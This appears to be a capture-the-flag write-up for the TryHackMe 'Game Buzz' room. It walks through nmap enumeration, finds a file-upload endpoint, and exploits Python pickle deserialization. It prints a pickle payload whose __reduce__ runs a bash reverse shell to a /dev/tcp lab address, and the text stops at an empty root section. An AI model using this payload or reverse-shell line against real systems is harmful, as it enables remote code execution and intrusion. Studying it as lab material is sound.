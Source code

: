 # Game Buzz

![image](https://user-images.githubusercontent.com/5285547/128932672-b10c018a-8d55-4bfd-8edb-1d4100c0a480.png)

Romm link: https://tryhackme.com/room/gamebuzz

## Enum

Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito
```



```
sudo nano /etc/hosts  

incognito.com
dev.incogniot.com
```
---
## Port 80 

Checking the main website didn't show much, apart from a button that loads a file with a .pkl extension. 

![image](https://user-images.githubusercontent.com/5285547/128937818-90d5dd7c-561d-4463-8a1c-a79311deb7b5.png)

Also we find a domain name. 

```
sudo nano /etc/hosts  
ip incognito.com
```

## dev.incognito.com

```
sudo nano etc/hosts
IP dev.incogniot.com
```

http://dev.incognito.com/secret/upload/

Finding the endpoint we can try to upload a file of our own. Based on the .pkl file extension this hints at python pickle deserilization. 

## User

If we can get our file to be read from the main website we can get RCE. 

test.pkl (rev shell)

```
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.8.153.120/9999 0>&1'",))
pickle.dump(pickleSerilization(), open("rev_shell", "wb"))
```
Running the code gives us the rev_shell file. Upload this at "http://dev.incognito.com/secret/upload/" then call it with the main website.

![image](https://user-images.githubusercontent.com/5285547/128940779-a030648b-e70f-49e1-b35f-53d343d13e96.png)

Now we can access the /home/dev2/ folder to find the user flag. 

---
## Root


